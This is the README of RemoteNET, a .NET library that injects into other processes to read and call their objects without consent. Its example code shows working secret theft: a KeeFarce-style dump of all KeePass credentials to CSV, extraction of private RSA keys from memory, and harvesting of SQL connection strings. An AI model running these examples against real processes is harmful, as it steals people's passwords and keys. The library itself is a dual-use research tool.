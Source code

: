 ![icon](https://raw.githubusercontent.com/theXappy/RemoteNET/main/icon.png)
# RemoteNET
This library lets you examine, create and interact with remote objects in other .NET processes.  
It's like [System.Runtime.Remoting](https://docs.microsoft.com/en-us/dotnet/api/system.runtime.remoting?view=net-5.0) except the other app doesn't need to be compiled (or consent) to support it.

Basically this library lets you mess with objects of any other .NET app without asking for permissions :)

✅ **Tested versions:**  
* .NET 5/6  
* .NET Core 3.0/3.1  
* .NET Framework 4.5/4.6/4.7/4.8 (incl. subversions)


## Compilation
1. Clone
2. Open `RemoteNET.sln` file in VisualStudio 2019
3. Build Solution (`Ctrl+Shift+B`)

You can then run the `ScubaDiver.Tester` project which is a CLI demonstrating some of `RemoteNET` abilities.  
Alternativly, include `RemoteNET` in your project and use it yourself.

## Minimal Working Example
To get the essence of how easy and usefull this library can be, see below a re-implementation of [denandz/KeeFarce](https://github.com/denandz/KeeFarce).  
This example interacts with an open KeePass process and makes it export all credentials to a CSV file.  
```C#
// Gain foothold within the target process
Process keePassProc =  Process.GetProcessesByName("KeePass").Single();
RemoteApp remoteApp = RemoteApp.Connect(keePassProc);
RemoteActivator rActivator = remoteApp.Activator;

// Get a remote DocumentManagerEx object
IEnumerable<CandidateObject> candidates = remoteApp.QueryInstances("KeePass.UI.DocumentManagerEx");
RemoteObject remoteDocumentManagerEx = remoteApp.GetRemoteObject(candidates.Single());
dynamic dynamicDocumentManagerEx = remoteDocumentManagerEx.Dynamify();

// Get sensitive properties to dump
dynamic activeDb = dynamicDocumentManagerEx.ActiveDatabase;
dynamic rootGroup = activeDb.RootGroup;

// Create remote PwExportInfo object (Call Ctor)
RemoteObject pwExportInfo = rActivator.CreateInstance("KeePass.DataExchange.PwExportInfo", rootGroup, activeDb, true);

// Create remote KeePassCsv1x (Call Ctor)
RemoteObject keePassCsv1x = rActivator.CreateInstance("KeePass.DataExchange.Formats.KeePassCsv1x");
dynamic dynamicCsvFormatter = keePassCsv1x.Dynamify();

// Creating a remote FileStream object
string tempOutputFile = Path.ChangeExtension(Path.GetTempFileName(), "csv");
RemoteObject exportFileStream = rActivator.CreateInstance(typeof(FileStream), tempOutputFile, FileMode.Create);

// Calling Export method of exporter
dynamicCsvFormatter.Export(pwExportInfo, exportFileStream, null);

// Showing results in default CSV editor.
Console.WriteLine($"Output written to: {tempOutputFile}");
Process.Start(tempOutputFile);
```

## How To Use
This section documents most parts of the library's API which you'll likely need.

### ✳️ Setup
To start playing with a remote process you need to create a `RemoteApp` object like so:
```C#
Process target =  Process.GetProcessesByName("OtherDotNetAppName").Single();
RemoteApp remoteApp = RemoteApp.Connect(target);
```

### ✳️ Getting Remote Objects
RemoteNET allows you to interact with existing objects and create new ones.  
**To find existing objects** you'll need to search the remote heap.  
Use `RemoteApp.QueryInstances` to find possible candidate for the desired object and `RemoteApp.GetRemoteObject` to get a handle of a candidate.  
```C#
IEnumerable<CandidateObject> candidates = remoteApp.QueryInstances("MyApp.PasswordContainer");
RemoteObject passwordContainer = remoteApp.GetRemoteObject(candidates.Single());
```
**To create new objects** the `Activator`-lookalike can be used:
```C#
// Creating a remote StringBuilder with default constructor
RemoteObject remoteSb1 = remoteApp.Activator.CreateInstance(typeof(StringBuilder));

// Creating a remote StringBuilder with the (string,int) constructor
RemoteObject remoteSb2 = remoteApp.Activator.CreateInstance(typeof(StringBuilder), "Hello", 100);
```
Note how we used constructor arguments in the second `CreateInstance` call. Those could also be other `RemoteObject`s:
```C#
RemoteObject remoteStringBuilder = remoteApp.Activator.CreateInstance(typeof(StringBuilder));
// Constructing using the "StringWriter(StringBuilder sb)" ctor
RemoteObject remoteStringWriter = remoteApp.Activator.CreateInstance(typeof(StringWriter), remoteStringBuilder);
```

### ✳️ Reading Remote Fields/Properties
To allow a smooth coding expereince RemoteNET is utilizing a special dynamic object which any `RemoteObject` can turn into.  
This object can be used to access field/properties just if they were field/properties of a local object:
```C#
RemoteObject remoteStringBuilder = remoteApp.Activator.CreateInstance(typeof(StringBuilder));
dynamic dynamicStringBuilder = remoteStringBuilder.Dynamify();
Console.WriteLine("Remote StringBuilder's Capacity: " + dynamicStringBuilder.Capacity)
```
A more interesting example would be retrieving the `ConnectionString`s of every `SqlConnection` instance:
```C#
var sqlConCandidates = remoteApp.QueryInstances(typeof(SqlConnection));
foreach (CandidateObject candidate in sqlConCandidates)
{
    RemoteObject remoteSqlConnection = remoteApp.GetRemoteObject(candidate);
    dynamic dynamicSqlConnection = remoteSqlConnection.Dynamify();
    Console.WriteLine("ConnectionString: " + dynamicSqlConnection.ConnectionString);
}
```

### ✳️ Invoking Remote Methods
Just like accessing fields, invoking methods can be done on the dynamic objects.  
This fun example dumps all private RSA keys (which are stored in `RSACryptoServiceProvider`s) found in the target's memory:
```C#
Func<byte[], string> ToHex = ba => BitConverter.ToString(ba).Replace("-", "");

// Finding every RSACryptoServiceProvider instance
var rsaProviderCandidates = remoteApp.QueryInstances(typeof(RSACryptoServiceProvider));
foreach (CandidateObject candidateRsa in rsaProviderCandidates)
{
    RemoteObject rsaProv = remoteApp.GetRemoteObject(candidateRsa);
    dynamic dynamicRsaProv = rsaProv.Dynamify();
    // Calling remote `ExportParameters`.
    // First parameter (true) indicates we want the private key.
    Console.WriteLine(" * Key found:");
    dynamic parameters = dynamicRsaProv.ExportParameters(true);
    Console.WriteLine("Modulus: " + ToHex(parameters.Modulus));
    Console.WriteLine("Exponent: " + ToHex(parameters.Exponent));
    Console.WriteLine("D: " + ToHex(parameters.D));
    Console.WriteLine("P: " + ToHex(parameters.P));
    Console.WriteLine("Q: " + ToHex(parameters.Q));
    Console.WriteLine("DP: " + ToHex(parameters.DP));
    Console.WriteLine("DQ: " + ToHex(parameters.DQ));
    Console.WriteLine("InverseQ: " + ToHex(parameters.InverseQ));
}
```

## TODOs
1. Generics/Arrays aren't completely supported
2. Static members
3. Support injecting to self with local diver
4. Document "Reflection API" (RemoteType, RemoteMethodInfo, ... )
5. Support other .NET framework CLR versions (Before .NET 4.5). Currently supports v4.0.30319


## Thanks
**denandz** for his interesting project **KeeFarce** which was a major inspiration for this project.  
Also multiple parts of this project are directly taken from KeeFarce (DLL Injection, Bootstrap, IntPtr-to-Object converter).

**icons8** for the "Puppet" icon

**Raymond Chen** for stating this project shouldn't be done in [this blog post from 2010](https://devblogs.microsoft.com/oldnewthing/20100812-00/?p=13163).  
I really like this qoute from the post:
>If you could obtain all instances of a type, the fundamental logic behind computer programming breaks down. It effectively becomes impossible to reason about code because anything could happen to your objects at any time.
